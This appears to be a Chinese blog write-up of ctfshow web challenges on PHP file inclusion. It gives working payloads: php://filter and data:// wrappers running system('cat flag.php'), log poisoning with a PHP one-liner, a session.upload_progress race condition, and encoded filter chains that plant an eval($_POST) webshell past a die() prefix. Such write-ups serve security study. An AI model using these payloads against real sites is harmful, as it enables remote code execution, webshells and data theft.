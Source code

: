﻿---
title: ctfshow web入门(文件包含)
categories: ctfshow
---
## web78（伪协议）
知识点：
- php伪协议

>Payload: ?file=php://filter/read=convert.base64-encode/resource=flag.php
<!--more-->
---
## web79（伪协议）
知识点：
- php伪协议

>Payload: ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

>PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');
 
 System函数 


执行外部程序并显示输出资料。

system语法: string system(string $command, int [return_var]);

system返回值: 字符串

函数种类: 操作系统与环境

```bash
<?php
echo '<pre>';

// 输出 shell 命令 "ls" 的返回结果
// 并且将输出的最后一样内容返回到 $last_line。
// 将命令的返回值保存到 $retval。
$last_line = system('ls', $retval);


```
---
## web80-81（包含日志）
知识点：
- 包含日志

[日志包含](https://www.cnblogs.com/my1e3/p/5854897.html)

首先源码告诉我们部分协议被禁止，：也被禁止，所以新姿势，通过包含 日志文件 

原理：当我们没有上传点，并且也没有url_allow_include功能时，我们就可以考虑包含服务器的日志文件。        利用思路也比较简单，当我们访问网站时，服务器的日志中都会记录我们的行为，当我们访问链接中包含PHP一句话木马时，也会被记录到日志中。知道服务器的日志位置，我们可以去包含这个文件从而拿到shell。其实整个“包含日志文件漏洞利用”最关键的就是找日志存放的“物理路径”，只要找到日志的物理存放路径，一切就可以按部就班的完成利用了。

题目给了日志文件位置，使用bp，写入一句话，连接

![](https://img-blog.csdnimg.cn/2021012919143578.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

![](https://img-blog.csdnimg.cn/20210129191542189.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
亦可写入<?php system(‘ls’);?> 再次写入<?php system(‘cat fl0g.php’);?>

![](https://img-blog.csdnimg.cn/20210129191644835.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## web82-86（session.upload_progress+条件竞争）
知识点：

- 利用`session.upload_progress`进行文件包含
- 条件竞争

看我的这篇博客：LFI绕过Session包含限制 
[利用session.upload_progress进行文件包含和反序列化渗透](https://www.freebuf.com/vuls/202819.html)

![](https://img-blog.csdnimg.cn/20210129192028430.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
通过观察代码，可以看到过滤了大部分的文件包含函数，这里我们利用`PHP_SESSION_UPLOAD_PROGRESS`加`条件竞争`进行文件包含

```bash
<!DOCTYPE html>
<html>
<body>
<form action="http://d1e5ba13-d4cd-440b-8e4e-166a9e202418.chall.ctf.show/" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="2333" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>

```
创建为html

![](https://img-blog.csdnimg.cn/20210129192125678.png#pic_center)
进入后以post方式提交文件，格式随意，我提交一个.txt文件

![](https://img-blog.csdnimg.cn/20210129192148208.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
抓包

![](https://img-blog.csdnimg.cn/2021012919223864.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
这里我们添加一个 `Cookie :PHPSESSID=cys` ，PHP将会在服务器上创建一个文件：/tmp/sess_cys” （这里我们猜测session文件默认存储位置为/tmp），并在PHP_SESSION_UPLOAD_PROGRESS下添加恶意代码，修改如下

![](https://img-blog.csdnimg.cn/20210129192326280.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
发送到爆破并设置为不断发送

![](https://img-blog.csdnimg.cn/20210129192341653.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
我们再去访问调用包含文件的界面

![](https://img-blog.csdnimg.cn/20210129192407996.png#pic_center)
抓包

![](https://img-blog.csdnimg.cn/20210129192420737.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
设置为不断爆破

综上两个方式一个post一个get开始不断发送
查看返回结果

![](https://img-blog.csdnimg.cn/20210129192454785.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
发现fl0g.php
将ls改为cat

![](https://img-blog.csdnimg.cn/20210129192513733.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## web87（file_put_content）
知识点：
- file_put_content 绕过死亡代码

[谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
[file_put_content和死亡·杂糅代码之缘](https://xz.aliyun.com/t/8163#toc-11)
[探索php://filter在实战当中的奇技淫巧](https://www.anquanke.com/post/id/202510#h3-5)


![](https://img-blog.csdnimg.cn/20210129193004620.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)



![](https://img-blog.csdnimg.cn/20210129193012409.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
将content参数的值写入到urldecode的file参数所定义的文件里，但是一同写入的还有die，导致即使我们成功写入一句话，也执行不了，所以我们要想法绕过die，去执行我们所写入的一句话，

我们使用base64-decode
将 php://filter/write=convert.base64-decode/resource=123.php （这里因为我们需要的是写入的权限，所以是write）进行两次url编码

```bash
%25%37%30%25%36%38%25%37%30%25%33%41%25%32%46%25%32%46%25%36%36%25%36%39%25%36%43%25%37%34%25%36%35%25%37%32%25%32%46%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%44%25%36%33%25%36%46%25%36%45%25%37%36%25%36%35%25%37%32%25%37%34%25%32%45%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%44%25%36%34%25%36%35%25%36%33%25%36%46%25%36%34%25%36%35%25%32%46%25%37%32%25%36%35%25%37%33%25%36%46%25%37%35%25%37%32%25%36%33%25%36%35%25%33%44%25%33%31%25%33%32%25%33%33%25%32%45%25%37%30%25%36%38%25%37%30
```

![](https://img-blog.csdnimg.cn/20210129193248374.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

然后再content写入经过base64编码过后的一句话 <?php @eval($_POST[a]);?>（PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==）
这里content的值前面要加两个字符，因为base64算法解码时是4个byte一组，前面还剩phpdie 6个字符，所以给他增加2个字符 一共8个字符

此时我们可以蚁剑

![](https://img-blog.csdnimg.cn/20210129193334469.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


或者我们进入123.php，再post我们的a=system(‘base64 fl0g.pgp’);


![](https://img-blog.csdnimg.cn/20210129193350256.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
## web88（伪协议）
知识点：

- php伪协议

![](https://img-blog.csdnimg.cn/20210129193539486.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
没有过滤 `：`  使用?file=data://text/plain;base64, PD9waHAgc3lzdGVtKCdiYXNlNjQgZmwwZy5waHAnKTsgPz4

---
## web117（convert.iconv）
知识点：

- php伪协议 filter中的 convert.iconv.

[file_put_content和死亡·杂糅代码之缘](https://xz.aliyun.com/t/8163#toc-11)
[探索php://filter在实战当中的奇技淫巧](https://www.anquanke.com/post/id/202510#h3-5)

![](https://img-blog.csdnimg.cn/20210129193907928.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

![](https://img-blog.csdnimg.cn/20210129193914417.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Payload:  file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
 post:contents=?<hp pvela$(P_SO[T]1;)>?


---
## 参考
[file_put_content和死亡·杂糅代码之缘](https://xz.aliyun.com/t/8163#toc-11)
[探索php://filter在实战当中的奇技淫巧](https://www.anquanke.com/post/id/202510#h3-5)
[谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
[日志包含](https://www.cnblogs.com/my1e3/p/5854897.html)


